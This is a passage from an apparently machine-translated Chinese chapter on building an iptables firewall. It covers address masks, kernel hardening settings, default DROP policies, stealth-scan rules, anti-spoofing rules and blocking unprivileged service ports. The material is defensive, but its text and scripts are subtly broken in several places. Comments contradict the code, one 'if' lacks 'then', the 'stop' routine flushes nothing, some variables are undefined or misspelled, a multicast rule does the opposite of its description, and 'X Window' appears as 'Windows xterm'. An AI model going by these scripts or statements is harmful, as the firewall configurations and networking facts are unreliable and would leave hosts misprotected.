构建自定义内核也并非没有陷阱。一旦你自行编译了内核，就不能再使用发行版提供的内核和更新，但发行版使用的很可能是较旧版本的内核，这可能会重新引入在你自定义系统中已修复的 bug。使用原厂内核也更容易获得厂商针对内核问题的支持。

如前文所述，我很少为生产服务器机器自行编译内核。只有在直接支持是绝对要求的情况下才是例外。这种情况非常罕见。我相信，将内核定制到计算机并通过额外补丁增加安全性的能力，超过了使用发行版官方内核更新的需求。

### 7.1.2 源地址和目的地址选项

防火墙规则中可以同时指定数据包的源地址和目的地址。只有具有该特定源地址或目的地址的数据包才匹配该规则。地址可以是特定的 IP 地址、完全限定主机名、网络（域）名称或地址、有限的地址范围，或者全包容。

#### 以符号名称表示的 IP 地址

远程主机和网络可以指定为完全限定主机名或网络名称。使用主机名对于应用于单个远程主机的防火墙规则特别方便。对于 IP 地址可能变化或不可见地表示多个 IP 地址的主机（例如 ISP 邮件服务器有时会出现这种情况），这一点尤为适用。然而，一般来说，远程地址最好以点分四组记法表示，因为存在 DNS 主机欺骗的可能性。

除非防火墙中启用了 DNS 流量，否则无法解析符号主机名。如果在防火墙规则中使用主机名，这些规则必须遵循启用 DNS 流量的规则，除非 `/etc/hosts` 中包含这些主机名的条目。

此外，某些发行版（如 Red Hat）使用在安装防火墙规则后才启动网络或其他服务（包括 BIND）的启动环境。如果在防火墙脚本中使用符号主机名和网络名，这些名称必须在 `/etc/hosts` 中有条目才能被解析。

`iptables` 允许在地址后附加一个位掩码。掩码的值范围从 0 到 30，表示要掩码的位数。如第 4 章 “包过滤防火墙的基础概念” 中所讨论的，位是从左侧，即最高有效位开始计数的。此掩码指定地址中有多少个前导位必须与指定的 IP 地址精确匹配。

使用掩码的一个示例是允许仅在您的机器和您的 ISP 服务器机器之间建立对特定服务的连接。假设您的 ISP 在其服务器地址空间中使用了 192.168.24.0 到 192.168.27.255 范围的地址。在这种情况下，地址/掩码对将是 192.168.24/22。如图 7.1 所示，该范围内所有地址的前 22 位是相同的，因此只有来自 192.168.24.0 到 192.168.27.255 地址范围内的机器提供的匹配前 22 位的地址才会被接受。


| 十进制 | 二进制 |

|---|---|

| 192.168.24.0 | 11000000.10101000.00010000.00000000 |

| 192.168.27.255 | 11000000.10101000.00011011.11111111 |

| 位 | 31 | 24 | 21 | 10 | 8 | 0 |

|---|---|---|---|---|---|---|

**图 7.1** 掩码 IP 地址范围 192.168.24.0/22 中匹配的 22 位。

掩码为 0，即 `/0`，意味着地址中不需要匹配任何位。换句话说，不需要匹配任何位，使用 `/0` 等同于不指定地址。任何单播地址都匹配，`iptables` 有一个内置的 0.0.0/0 别名，即 `any/0`。请注意，`any/0`，无论是隐含还是显式声明，都不包括广播地址。

### 7.2 初始化防火墙

防火墙是由 `iptables` 命令行选项中定义的一组包过滤规则实现的。每条单独的规则都会执行一次 `iptables`。（不同的防火墙可以包含从十几个到数百个不等。）

`iptables` 的调用应从可执行的 shell 脚本中进行，而不是直接从命令行进行。你不应该从命令行调用特定的 `iptables` 规则，因为这可能会导致你的防火墙不当接受或丢弃数据包。当链被初始化并启用默认策略时，所有网络服务都会被阻止，直到定义了允许单个服务的接受过滤器为止。

理想情况下，你应该从控制台执行该 shell 脚本。但勇敢的人会要么从远程机器，要么从 Windows xterm 会话中执行该 shell 脚本。不仅远程网络流量会被阻止，Windows 使用的本地接口也会被阻止，直到明确授予对该接口的访问权限。理想情况下，防火墙上不应当运行甚至安装 Windows。这是软件不必要的典型例子，过去曾被用于利用服务器漏洞。

作为一个管理地理上相距数千英里的 Linux 电脑的人，我可能只能从远程位置激活防火墙脚本。在这种情况下，建议做两件事：首先，在防火墙的第一次或前几次执行时将默认策略更改为 `ACCEPT`。这样做是为了调试脚本本身的语法。在脚本语法正确后，将该策略改回 `DROP`。

关于从远程位置处理防火墙脚本的第二点同样重要的提示是，创建一个 `cron` 作业，在未来的某个时间点停止防火墙。这样做实际上允许你启用防火墙并进行一些测试，但如果脚本完全失败，也能启用远程访问。

以便在因规则放置不当（或缺失）导致自己被锁定后，能够重新进入计算机。例如，在调试防火墙脚本时，我会创建一个 `cron` 条目，每 2 分钟禁用一次防火墙。然后我可以安全地运行防火墙脚本，以确定我是否已将自己排除在 `SSH` 会话之外。如果确实被锁定，我只需等待几分钟，让防火墙脚本运行并关闭防火墙，从而给我机会修复脚本并再次尝试。

此外，请记住，防火墙过滤器按照你在 `INPUT` 或 `OUTPUT` 链上定义它们的顺序应用。规则按定义顺序附加到其所在链的末尾。第一个匹配的规则胜出。因此，防火墙规则必须按层级顺序定义，从最具体到更通用。

防火墙初始化用于覆盖大量内容，包括定义 shell 脚本中使用的常量，启用内核支持服务（当必要时），清除防火墙链中现有的规则，定义 `INPUT` 和 `OUTPUT` 链的默认策略，恢复回环接口以进行正常的系统操作，拒绝访问你决定阻止的任何主机或网络，以及定义一些基本规则来防止恶意地址并保护运行在非特权端口上的某些服务。

#### 7.2.1 防火墙示例中使用的符号常量

如果使用符号常量来表示重复出现的名称和地址，防火墙脚本将最容易阅读和维护。以下常量要么用于本章示例中，要么是在网络标准中定义的通用常量。此示例包含了上述的“shebang”解释器行，作为友好的提醒：


```
#!/bin/sh
IPT="/sbin/iptables"
INTERNET="eth0"
LOOPBACK_INTERFACE="lo"
IPADDR="my.ip.address"
MY_ISP="my.isp.address.range"
SUBNET_BASE="my.subnet.network"
SUBNET_BROCAST="my.subnet.bcast"
LOOPBACK="127.0.0.0/8"
CLASS_A="10.0.0.0/8"
CLASS_B="172.16.0.0/12"
CLASS_C="192.168.0.0/16"
CLASS_MULTICAST="224.0.0.0/4"
CLASS_E_RESERVED_NET="240.0.0.0/5"
BROCAST_SRC="0.0.0.0/0"
BROCAST_DEST="255.255.255.255"
PRIVPORTS="0:1023"
UNPRIVPORTS="1024:65535"
# Location of iptables on your system
# Internet-connected interface
# how your system names it
# your IP address
# ISP server & NOC address range
# Your subnet network address
# Your subnet broadcast address
# Your subnet loopback address range
# class A private networks
# class B private networks
# class C private networks
# class D multicast addresses
# class E reserved addresses
# broadcast source address
# broadcast destination address
# well-known, privileged port range
# unprivileged port range
```

此处未列出的常量在特定规则的使用上下文中定义。

### 7.2.2 启用内核监控支持

操作系统对各种类型数据包检查的支持通常与防火墙可以测试的内容重叠。如有疑问，旨在实现冗余或纵深防御。

从以下行中显示的命令中，`icmp_echo_ignore_broadcasts`指示内核丢弃针对广播或多播地址的 ICMP echo-request 消息。（另一种设施，`icmp_echo_ignore_all`，丢弃任何传入的 echo-request 消息。需要注意的是，IPS 通常依赖 ping 来帮助诊断本地网络问题，而 DHCP 有时依赖 echo-request 来避免地址冲突。）

```
# Enable broadcast echo
echo 1 > /proc/sys/net/ipv4/icmp_echo_ignore_broadcasts
```

源路由很少被合法使用。防火墙通常会丢弃所有源路由数据包。这些命令禁用源路由数据包：

```
# Disable Source Routed Packets
for f in /proc/sys/net/ipv4/conf/*/accept_source_route; do
echo 0 > $f
done
```

TCP SYN 饼干是一种机制，试图通过加速检测从 SYN 泛洪中恢复。此命令启用 SYN 饼干：

```
# Enable SYN Cookie Protection
echo 1 > /proc/sys/net/ipv4/tcp_syncookies
```

ICMP 重定向消息由其相邻路由器发送给主机。其目的是通知主机存在更短的路径。也就是说，主机和两个路由器都在同一网络上，而新路由器是原始路由器将作为下一跳发送数据包的网关。

路由器为主机生成重定向消息；主机则不生成。主机必须遵守重定向并将新网关添加到其路由器缓存中，除了 RFC 1122 “互联网主机要求—通信层” 第 3.2.2 节中描述的情况：“如果新网关地址不在重定向到达的同一连接（子）网上 [INTRO:2, 附录 A]，或者重定向的源不是最终目的地的当前第一跳网关（参见第 3.3.1 节），则应静默丢弃重定向消息。” 这些命令启用重定向：

```
# Disable ICMP Redirect Acceptance
for f in /proc/sys/net/ipv4/conf/*/accept_redirects; do
echo 0 > $f
done
```

`rp_filter`试图实现 RFC 1812 “IP 版本 4 路由器要求” 第 5.3.8 节中描述的源地址验证。简而言之，如果数据包的源地址使得主机的转发表不会将具有该目的地址的数据包从接收该数据包的同一接口路由出去，则数据包将被静默丢弃。根据 RFC 1812，如果实现，路由器应默认启用此功能。这种形式的地址验证在路由器上通常未启用，因此这些命令禁用它：

```
# Drop Spoofed Packets coming in on an interface, which if replied to,
# would result in the reply going out a different interface.
for f in /proc/sys/net/ipv4/conf/*/rp_filter; do
echo 1 > $f
done
```

`log_martians`记录具有不可能地址的数据包，如 RFC 1812, 5.3.7 中定义。不可能的源地址包括多播或广播地址、0 和 127 网络中的地址以及 C 类 E 保留空间。不可能的目的地址包括 0.0.0.0、任何网络上的主机、127 网络上的任何主机以及 C 类 E 地址。

目前，Linux 网络代码检查上述提到的地址。它不检查私有类地址（在没有知道给定接口连接的网络的情况下也无法这样做）。`log_martians`不影响数据包的有效性；它仅影响日志记录，这里设置为：

```
# Packets with impossible addresses.
for f in /proc/sys/net/ipv4/conf/*/log_martians; do
echo 1 > $f
done
```

### 7.2.3 移除任何预先存在的规则

在定义一组过滤规则时，首先要做的是从其链中移除任何现有规则。否则，你定义的任何新规则都将被添加到现有规则的末尾。数据包很容易在到达你从此处开始的链中定义的点之前匹配预先存在的规则。

移除是冲洗链。在没有引用特定链的参数的情况下，以下命令一次性冲洗所有链中的所有规则：

```
# Remove any existing rules from all chains
$IPT --flush
$IPT -t nat --flush
$IPT -t mangle --flush
```

链是空的，但任何用户定义的链仍然存在。冲洗链不会影响当前的默认策略状态。

下一步将是删除任何用户定义的链。可以使用以下命令删除它们：

```
$IPT -X
$IPT -t nat -X
$IPT -t mangle -X
```

### 7.2.4 重置默认策略并停止防火墙

到目前为止，防火墙已设置了一些默认值，无论 Netfilter 防火墙的状态如何都可以使用。在将默认策略设置为 DROP 之前，我首先将默认策略重置为 ACCEPT。这对于完全停止防火墙非常有用，正如你稍后将看到的。这些行设置默认策略：

```
# Reset the default policy
$IPT --policy INPUT ACCEPT
$IPT --policy OUTPUT ACCEPT
$IPT --policy FORWARD ACCEPT
$IPT -t nat --policy PREROUTING ACCEPT
$IPT -t nat --policy OUTPUT ACCEPT
$IPT -t nat --policy POSTROUTING ACCEPT
$IPT -t mangle --policy PREROUTING ACCEPT
$IPT -t mangle --policy OUTPUT ACCEPT
```

这是对我所称的防火墙脚本开头部分的最终补充，即启用防火墙轻松停止的代码。当你在调用脚本时使用 "stop" 作为参数，此代码置于上述代码之前，脚本将冲洗、清除并重置默认策略，防火墙将有效停止：

```
if [ "$1" = "stop" ]
then
echo "Firewall completely stopped! WARNING: THIS HOST HAS NO
FIREWALL RUNNING."
exit 0
fi
```

### 7.2.5 启用回环接口

你需要启用无限制的回环流量。这使你能够运行任何本地基于网络的服务——无论是你需要的还是系统依赖的——而无需担心指定所有防火墙规则。


回环网络接口上的本地服务。系统启动后，系统的默认策略是接受所有数据包。冲洗现有连接没有效果。然而，如果正在重新初始化防火墙，且之前使用过默认拒绝策略，则丢弃策略仍然有效。如果没有任何接受规则，回环接口将仍然无法访问。

由于回环接口是本地内部接口，防火墙可以立即允许回环流量。

```
# Unlimited traffic on the loopback interface
$IPT -A INPUT -i lo -j ACCEPT
$IPT -A OUTPUT -o lo -j ACCEPT
```

## 7.2.6 定义默认策略

默认情况下，你希望防火墙丢弃所有流量。内置链有两个可用的选项：`ACCEPT` 和 `DROP`。在 `iptables` 中，`REJECT` 不是合法的策略。用户自定义的链不能分配默认策略。

使用 `DROP` 策略时，除非定义了规则显式地允许或拒绝匹配的报文，否则报文将被静默丢弃。你更可能希望静默丢弃不需要的入站报文，但拒绝出站报文并向本地服务器发送一条 ICMP 消息。对于最终用户而言，区别在于，例如，如果远程站点某人尝试连接你的 Web 服务器，该用户的浏览器会挂起，直到其系统返回 TCP 超时状态。没有任何迹象表明你的站点或 Web 服务器存在。另一方面，如果你尝试连接一个 Web 服务器，你的浏览器会立即收到一个错误代码，指示该操作不被允许：

```bash
# Set the default policy to drop
$IPT --policy INPUT DROP
$IPT --policy OUTPUT DROP
$IPT --policy FORWARD DROP
```

此时，除了本地环回流量外，所有网络流量都被阻止。此防火墙只有一个网络接口。`FORWARD` 策略并非必需。定义 `FORWARD` 策略是一种未来的预防措施。因此，以下定义应添加为：

```bash
$IPT -t nat --policy PREROUTING DROP
$IPT -t nat --policy OUTPUT DROP
$IPT -t nat --policy POSTROUTING DROP
```

```bash
$IPT -t mangle --policy PREROUTING DROP
$IPT -t mangle --policy OUTPUT DROP
```

### 默认策略规则与首个匹配规则优先

默认策略看起来是“首个匹配优先”场景的例外。默认策略命令不是位置相关的。它们本身并不是规则。一个链的默认策略是在报文与该链上的每条规则进行比较且未匹配之后应用的。

脚本中首先定义默认策略，以便在定义相反规则的规则之前确定默认的报文处理方式。如果策略命令在脚本末尾执行，且如果防火墙脚本包含语法错误导致其过早退出，则默认的“接受所有”策略可能会生效。如果报文未匹配任何规则（而在默认拒绝所有报文的防火墙中，规则通常是接受规则），报文将越过链的末尾并被默认接受。防火墙规则将不会起到任何作用。

## 7.2.7 隐身扫描与 TCP 状态标志

测试常见的 TCP 扫描形式是可能的，因为 `iptables` 提供了访问所有 TCP 状态标志的能力。以下规则阻止常见的隐身扫描探测。没有测试任何 TCP 状态组合的合法性。此外，先使用 `unclean` 匹配以匹配具有坏报头或其他问题的报文。该模块已经处于实验阶段一段时间了，因此请谨慎使用。你可能会看到加载此模块时的错误，它可能不适用于你的内核版本。如果出现这种情况，请在加载 `unclean` 模块的行前使用单个井号 `#` 来注释掉 `unclean` 匹配行。

重申第 6 章中提到的陈述，第一个状态标志列表列出了要测试的位。在这些位中，第二个状态标志列表列出了必须置位以匹配测试的位：

```bash
# Unclean
$IPT -A INPUT -m unclean -j DROP
# All of the bits are cleared
$IPT -A INPUT -p tcp --tcp-flags ALL NONE -j DROP
# SYN and FIN are both set
$IPT -A INPUT -p tcp --tcp-flags SYN,FIN SYN,FIN -j DROP
# SYN and RST are both set
$IPT -A INPUT -p tcp --tcp-flags SYN,RST SYN,RST -j DROP
# FIN and RST are both set
$IPT -A INPUT -p tcp --tcp-flags FIN,RST FIN,RST -j DROP
# FIN is the only bit set, without the expected accompanying ACK
$IPT -A INPUT -p tcp --tcp-flags ACK,FIN FIN -j DROP
# PSH is the only bit set, without the expected accompanying ACK
$IPT -A INPUT -p tcp --tcp-flags ACK,PSH PSH -j DROP
# URG is the only bit set, without the expected accompanying ACK
$IPT -A INPUT -p tcp --tcp-flags ACK,URG URG -j DROP
```

`ACK`, `FIN` 测试隐式地包含了包含 `FIN-PSH`、`FIN-URG` 和 `FIN-PSH-URG` 的 xmas tree 报文。

## 7.2.8 连接状态以绕过规则检查

指定针对先前发起且已接受交换的状态匹配，使你可以绕过针对正在进行的交换的防火墙测试。然而，初始客户端请求仍然受到服务特定过滤器的控制。

请注意，`INPUT` 和 `OUTPUT` 过滤器对于绕过双向规则都是必需的。状态模块不会将连接视为双向交换，也不会生成对称动态规则。

由于状态模块可能需要比 Linux 机器拥有的更多内存，本章开发的防火墙示例提供了两种替代方案的规则，包括有和无状态模块的情况。

请记住，使用状态模块允许你在正常操作下绕过针对正在进行的交换的状态防火墙规则。然而，如果连接的状态表条目被回收或超时，则必须包含标准规则。

### 同时包含静态和动态防火墙规则

可扩展性和状态表超时方面的资源限制可能要求同时使用静态和动态规则。在大型商业防火墙中，上限是一个卖点。

可扩展性问题出现在设计用于处理 50,000–100,000 个同时连接的大型防火墙中——那是大量的状态。资源在某个点会耗尽，且无法进行连接跟踪。要么新连接必须被丢弃，要么软件必须回退到无状态模式。

此外还有超时问题。连接状态不会永久保持。缓慢和休眠的连接的状态信息很容易被清除，以为其他活动连接腾出空间。当稍后出现报文时，状态信息必须被重建。在此期间，报文流量必须回退到无状态模式，同时传输栈查找连接信息并通知状态模块该报文确实是已建立交换的一部分：

```bash
if [ "CONNECTION_TRACKING" = "1" ];
$IPT -A INPUT -m state --state ESTABLISHED,RELATED -j ACCEPT
$IPT -A OUTPUT -m state --state ESTABLISHED,RELATED -j ACCEPT
# Using the state module alone, INVALID will break protocols that use
# bi-directional connections or multiple connections or exchanges,
# unless an ALG is provided for the protocol. At this time, FTP and
# IRC are the only protocols with ALG support.

$IPT -A INPUT -m state --state INVALID -j LOG \
  --log-prefix "INVALID input: "
$IPT -A INPUT -m state --state INVALID -j DROP

$IPT -A OUTPUT -m state --state INVALID -j LOG \
  --log-prefix "INVALID output: "
$IPT -A OUTPUT -m state --state INVALID -j DROP
fi
```

## 7.2.9 源地址欺骗和其他无效地址

本节建立了一些基于源和目的地址的 `INPUT` 链过滤器。这些地址绝不会在来自互联网的合法入站报文中看到。

在报文过滤级别，你可以确定识别为伪装的源地址欺骗的少数情况之一是使用你自己的 IP 地址。此规则拒绝声称来自你的入站报文：

```bash
# Refuse spoofed packets pretending to be from
# the external interface's IP address
$IPT -A INPUT -i $INTERNET -s $IPADDR -j DROP
```


无需阻止发往自身的出站报文。它们不会返回，声称来自你并表现为被欺骗。请记住，如果你向自己的外部接口发送报文，这些报文到达环回接口的输入队列，而不是外部接口的输入队列。包含你的 IP 地址作为源地址的报文永远不会到达外部接口，即使你向外部接口发送报文。

### 防火墙日志记录

`-j LOG` 目标为匹配规则的报文启用日志记录。当报文匹配规则时，事件会被记录在 `/var/log/messages` 中，或者在你定义为记录特定优先级消息的位置。

如第 4 章和第 5 章所述，私有 IP 地址在 A 类、B 类和 C 类地址范围的每一类中预留，用于私有局域网。它们不适用于在互联网上使用。路由器不应路由包含私有源地址的报文。然而，一些路由器确实会转发包含私有源地址的报文。

此外，如果你的 ISP 子网中（即在你共享的路由器一侧）有人泄漏包含私有 IP 地址的报文，即使路由器不转发它们，你也会看到它们。如果你未为任何 A 类、B 类或 C 类私有网络地址设置 NAT 或代理配置，你自己局域网中的机器也可能泄漏私有地址。

以下三条规则禁止包含来自这些范围中任何一个源地址的入站报文。在公共网络上不应看到此类报文：

```bash
# Refuse packets claiming to be from a Class A private network
$IPT -A INPUT -i $INTERNET -s $CLASS_A -j DROP
```

```bash
# Refuse packets claiming to be from a Class B private network
$IPT -A INPUT -i $INTERNET -s $CLASS_B -j DROP
```

```bash
# Refuse packets claiming to be from a Class C private network
$IPT -A INPUT -i $INTERNET -s $CLASS_C -j DROP
```

## 拒绝定向广播

用于网络映射和拒绝服务攻击

```
$IPT -A INPUT -i $INTERNET -d $SUBNET_BASE -j DROP

$IPT -A INPUT -i $INTERNET -d $SUBNET_BROADCAST -j DROP
```

在默认拒绝策略下，由于防火墙规则会基于部分匹配目标地址来显式接受数据包，因此这两条定向广播消息都不会被防火墙接受。在局域网使用实际世界地址的大型设置中，这些规则变得更加关键。

在使用可变长度网络前缀时，站点的网络和主机字段可能落在字节边界上，也可能不落在字节边界上。为简单起见，`SUBNET_BASE` 是你的网络地址，例如 192.168.1.0。`SUBNET_BROADCAST` 是你网络的广播地址，例如 192.168.1.255。

正如对定向广播消息的处理一样，受限于你本地网络段的受限广播，在默认拒绝策略以及基于部分匹配目标地址显式接受数据包的防火墙规则下，同样不会被接受。再次强调，在局域网使用实际世界地址的大型设置中，以下规则变得更加关键：

## 拒绝受限广播

```
$IPT -A INPUT -i $ETHERNET -d $BROADCAST_DEST -j DROP
```

需要注意的是，在后续章节中必须为 DHCP 客户端做出例外处理。DHCP 客户端和服务器端口之间最初使用的是广播源地址和目标地址。

多播地址仅作为目标地址是合法的。下一条规则[丢弃]伪造的多播网络数据包：

## 拒绝 D 类多播地址

作为源地址是非法的

```
$IPT -A INPUT -i $ETHERNET -s $CLASS_D_MULTICAST -j DROP
```

合法的多播数据包总是 UDP 数据包。因此，多播消息是点对点的，就像任何其他 UDP 消息一样。单播和多播数据包之间的区别在于使用的目标地址类别（以及以太网头部中携带的协议标志）。下一条规则拒绝携带非 UDP 协议的多播数据包：

```
$IPT -A INPUT -i $ETHERNET -p udp -d $CLASS_D_MULTICAST -j DROP
```

多播功能是在编译内核时的一个可配置选项，并且你的网络接口卡可以被初始化以识别多播地址。许多较新的 Linux 发行版的默认内核中启用了此功能。如果你订阅了提供音频和视频广播的多播会议服务，你可能希望启用这些地址。（多播也偶尔用于本地网络中的资源发现，例如 DHCP 或路由。）

除非你已将自己注册为接收方，否则你通常不会看到目标地址。多播数据包是根据事先的安排发送给多个特定目标的。但是，如果你从 ISP 本地子网上的机器发送多播数据包，默认策略会丢弃多播数据包，即使你已注册为接收方也是如此。你必须定义一条规则来接受多播地址。为了完整性，下一条规则允许入站多播数据包：

```
$IPT -A INPUT -i $ETHERNET -p udp -d $CLASS_D_MULTICAST -j ACCEPT
```

D 类 IP 地址的范围从 224.0.0.0 到 239.255.255.255。常数 `CLASS_D_MULTICAST`，即 224.0.0.0/4，被定义为匹配地址的前 4 位。如 图 7.2 所示，二进制下，十进制值 224 (11100000B) 到 239 (11101111B) 在前 4 位（1110B）上是相同的。

| 十进制 | 二进制 |
| --- | --- |
| 224.0.0.0 239.255.255.255 | 11100000.00000000.00000000.00000000 11101111.11111111.11111111.11111111 |
| 位 | 31 28 24 16 8 0 |

**图 7.2** 掩码 D 类多播地址 224.0.0.0/4 中匹配的前 4 位。

本节中的下一条规则丢弃来自 E 类保留网络的[来自]数据包：

```
# $IPT -A INPUT -i $INTERNET -s $CLASS_E_RESERVED_NET -j DROP
```

E 类 IP 地址的范围从 240.0.0.0 到 247.255.255.255。常数 `CLASS_E_RESERVED_NET`，即 240.0.0.0/5，被定义为匹配地址的前 5 位。如 图 7.3 所示，二进制下，十进制值 240 (11110000B) 到 247 (11110111B) 在前 5 位（11110B）上是相同的。

| 十进制 | 二进制 |
| --- | --- |
| 240.0.0.0 247.255.255.255 | 11110000.00000000.00000000.00000000 11110111.11111111.11111111.11111111 |
| 位 | 31 27 24 16 8 0 |

**图 7.3** 掩码 E 类保留地址范围 240.0.0.0/5 中匹配的前 5 位。

IANA 最终负责管理全球 IP 地址空间的分配和注册。有关 IP 地址分配的更多信息，请参阅 http://www.iana.org/_assignments/ipv4-address-space。IANA 定义了一些地址块。这些地址不应出现在公共互联网上。

## 保护分配在非特权端口上的服务

在 IANA 预留地址块的全集中，0.0.0.0/8、链路本地网络和测试网服务是那些不会被分配为公共地址的块。其余的预留块在分配之前是不可路由的。在此期间，它们可以被用作拒绝服务攻击中的源地址。防火墙可以阻止这些剩余块作为源地址，但事实证明，对于大多数站点来说这是不切实际的，因为自 2000 年以来，IANA 一直在积极分配这些块。以下各行丢弃来自这些源的数据包：

# 拒绝由 IANA 定义为预留的地址

# 0.*.*.* - 无法在 DHCP 存在下单方面阻止

# 169.254.0.0/16 - 链路本地网络

# 192.0.2/24 - TEST-NET

```
$SIPT -A INPUT -i $INTERNET -s 0.0.0.0/8 -j DROP

$SIPT -A INPUT -i $INTERNET -s 169.254.0.0/16 -j DROP

$SIPT -A INPUT -i $INTERNET -s 192.0.2/24 -j DROP
```

旨在本地或私有使用的服务，特别是，通常运行在非特权端口上。对于基于 TCP 的服务，可以通过 SYN 和 ACK 位的状态来区分针对这些服务之一的连接尝试与使用这些非特权端口之一的客户端的 ongoing 连接。阻止请求就足够了。除非使用了状态模块，否则必须阻止基于 UDP 的服务。

你应该考虑阻止到这些端口的连接尝试，以进行自身的安全保护。你希望阻止出站连接尝试，以保护你自己和他人免受你端错误的侵害，并记录潜在的内部安全问题。全面阻止这些端口并针对相关流量采取例外的、逐案的基础路由更安全。

## 官方服务端口号分配

端口号由 IANA 分配和注册。该信息最初以 RFC 1700，“已分配数字”的形式维护。该 RFC 现已过时。官方信息由 IANA 在 http://www.iana.org/assignments/port-numbers 动态维护。


你需要防范哪些类型的错误？最糟糕的错误是将危险服务提供给世界，无论是无意的还是有意的。一个常见的错误是运行本地网络服务，这些服务泄漏到互联网上，并对其他产生影响。另一个是允许可疑的出站流量，例如端口扫描，而这些流量可能是由你的机器上的某人意外或故意产生的。默认拒绝一切的防火墙策略可以保护你免受许多这类错误。

## 端口扫描的问题

端口扫描本身并无害处。它们由网络分析工具生成。如今端口扫描的问题在于，它们通常由意图不善的人生成。他们“分析”的是你的网络，而不是他们自己的。不幸的是，这使得仅仅好奇的人也显得有罪。

默认拒绝一切的防火墙策略使你能够在防火墙后运行许多私人服务而无需承担过度的风险。这些服务必须被显式允许通过防火墙才能被远程主机访问。这种泛化是对现实的近似。虽然特权端口上的 TCP 服务对于所有熟练且坚定的黑客来说相对安全，但 UDP 服务本质上安全性较低，并且一些服务被分配到非特权端口。通常通过 UDP 运行的 RPC 服务更有问题。基于 RPC 的服务绑定到某个端口，一个非特权端口。`portmap`守护进程映射 RPC 服务号和实际端口号。端口扫描可以显示这些基于 RPC 的服务绑定在哪里，而无需通过`portmap`守护进程。幸运的是，`portmap`的使用越来越少，因此这不像几年前那样令人担忧。

一些服务，通常是局域网服务，通过官方注册的、众所周知的非特权端口提供。此外，一些服务，如 FTP 和 IRC，使用不适合数据包过滤的更多通信协议。以下部分中描述的规则使本地或远程客户端不合格发起连接到这些端口之一的连接。

FTP 是一个很好的例子，说明默认拒绝策略并不总是足以涵盖所有可能的情况。FTP 协议在本章后面介绍。目前，重要的想法是 FTP 允许在两个非特权端口之间建立连接。因为一些服务监听注册的非特权端口，并且因为到这些服务的入站连接请求源自非特权客户端，所以 FTP 允许的规则无意中允许了到这些本地服务的入站连接。这种情况也是防火墙规则在逻辑上是分层的且依赖于顺序的一个例子。显式保护运行在非特权端口上的私人本地服务的规则必须先于允许访问入口非特权端口范围的 FTP 规则。

因此，其中一些规则看起来是冗余的，对某些人来说是冗余的。对于运行服务的其他人来说，以下规则对于保护运行在本地非特权端口上的私人服务是必要的。

# 禁止连接到常见的 TCP 非特权服务器端口

到远程 X Window 服务器的连接应通过 SSH 建立，SSH 自动支持 X Window 连接。通过指定 `--syn` 标志，指示 SYN 位，仅阻止到服务器端口的连接建立。使用端口作为客户端端口发起的其他连接不受影响。

X Window 端口分配从第一个运行服务器的端口 6000 开始。如果运行额外的服务器，每个服务器都会被分配到递增的端口。作为一个小型站点，您可能只运行一个 X 服务器，您的服务器将只监听端口 6000。端口 6063 通常是最高的分配端口，允许在一台机器上运行 64 个独立的 X 窗口管理器，尽管有时也会看到 6255 和 6999 的范围：

```
XWINDOW_PORTS="6000:6063" # (TCP) X Window
```

第一条规则确保您的机器不发起任何到远程 X 窗口管理器的出站连接尝试：

```
# X Window 连接建立
$IPT -A OUTPUT -o $INTERNET -p tcp --syn \
    --destination-port $XWINDOW_PORTS -j REJECT
```

下一条规则阻止入站连接尝试到您的 X 窗口管理器。本地连接不受影响，因为本地连接是通过回环接口建立的：

```
# X Window：入站连接尝试
$IPT -A INPUT -i $INTERNET -p tcp --syn \
    --destination-port $XWINDOW_PORTS -j DROP
```

剩余的基于 TCP 的服务可以通过多端口匹配扩展用单条规则进行阻止。如果机器没有运行该服务，阻止入站连接并不是必需的，但从长远来看，如果您稍后决定在本地运行该服务，这样做更安全。

NFS 绑定到 UDP 端口 2049，但可以使用 TCP。你不应该在防火墙机器上运行 NFS，但如果正在运行，则拒绝外部访问。

不应允许连接到 OpenWindow 管理器。Linux 发行版不包含 OpenWindow 管理器。到端口 2000 的入站连接不需要阻止（当防火墙的 FORWARD 规则保护其他本地主机时，情况将有所不同，这将在后文提到）。

尝试连接到远程 SOCKS 服务器相当常见，且常涉及入侵利用。SOCKS 使用端口 1080。

`squid` 是一个 Web 缓存和代理服务器。`squid` 默认使用端口 3128，但可以配置为使用其他端口。

以下规则阻止本地客户端发起连接到远程 NFS 服务器、OpenWindow 管理器、SOCKS 代理服务器或 `squid` Web 缓存：

```
NFS_PORT="2049" # (TCP) NFS
SOCKS_PORT="1080" # (TCP) socks
OPENWINDS_PORT="2000" # (TCP) OpenWindows
SQUID_PORT="3128" # (TCP) squid

# 通过 TCP 建立到 NFS、OpenWindows、SOCKS 或
# squid 的连接
$IPT -A OUTPUT -o $INTERNET -p tcp \
  -m multiport --destination-port \
  $NFS_PORT,$OPENWINDS_PORT,$SOCKS_PORT,$SQUID_PORT \
  --syn -j REJECT
$IPT -A INPUT -i $INTERNET -p tcp \
  -m multiport --destination-port \
  $NFS_PORT,$OPENWINDS_PORT,$SOCKS_PORT,$SQUID_PORT \
  --syn -j DROP
```

## 分配到非特权端口的常见本地 UDP 服务

由于 TCP 的链接建立协议，TCP 协议规则可以比 UDP 协议规则处理得更精确。作为数据报服务，UDP 没有与之相关的连接状态。除非使用状态，否则对 UDP 服务的访问只能简单地被阻止。会为 DNS 和您可能使用的其他少数基于 UDP 的互联网服务做出明确的例外。幸运的是，常见的 UDP 互联网服务通常是客户端和特定服务器之间使用的类型。过滤规则通常允许与一个特定远程主机进行交换。

NFS 是需要关注的 UNIX UDP 服务，也是最常用的服务之一。NFS 运行在非特权端口 2049 上。与之前的基于 TCP 的服务不同，NFS 主要是基于 UDP 的服务。它可以配置为运行作为基于 TCP 的服务，但通常不这样做。

与 NFS 相关的是 NFS 的 RPC 锁守护进程 `lockd`。`lockd` 运行在 UDP 端口 4045 上：

```
NFS_PORT="2049" # NFS
LOCKD_PORT="4045" # RPC lockd for NFS

# NFS 和 lockd
if [ "$CONNECTION_TRACKING" = "1" ]; then
  $IPT -A OUTPUT -o $INTERNET -p udp \
    -m multiport --destination-port $NFS_PORT,$LOCKD_PORT \
    -m state --state NEW -j REJECT

  $IPT -A INPUT -i $INTERNET -p udp \
    -m multiport --destination-port $NFS_PORT,$LOCKD_PORT \
    -m state --state NEW -j DROP
else
  $IPT -A OUTPUT -o $INTERNET -p udp \
    -m multiport --destination-port $NFS_PORT,$LOCKD_PORT \
    -j REJECT
  $IPT -A INPUT -i $INTERNET -p udp \
    -m multiport --destination-port $NFS_PORT,$LOCKD_PORT \
    -j DROP
fi
```

# TCP 和 UDP 服务协议表

